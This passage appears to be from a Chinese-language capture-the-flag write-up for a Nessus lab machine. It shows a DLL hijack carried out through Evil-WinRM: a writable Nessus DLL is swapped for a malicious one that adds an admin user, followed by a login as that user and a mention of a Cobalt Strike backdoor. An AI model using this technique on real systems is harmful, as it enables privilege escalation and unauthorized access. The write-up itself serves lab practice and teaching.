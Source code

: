 ```
C:\Program Files\Tenable\Nessus\fips.dll (nesus [AllAccess])
C:\Program Files\Tenable\Nessus\icudt73.dll (nesus [AllAccess])
C:\Program Files\Tenable\Nessus\icuuc73.dll (nesus [AllAccess])
C:\Program Files\Tenable\Nessus\legacy.dll (nesus [AllAccess])
```
随便找一个替换即可
```shell
*Evil-WinRM* PS C:\program files\tenable\nessus> mv fips.dll fips_original.dll
*Evil-WinRM* PS C:\program files\tenable\nessus> mv admin.dll fips.dll

```
重启靶机
尝试使用添加的用户登录
```shell
┌──(root㉿kali)-[/home/kali/hmv/Nessus]
└─# evil-winrm -i 192.168.56.156 -u admin -p 'admin'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\admin\Documents>
```
成功登录。管理员用户运行cs后门上线拿flag即可
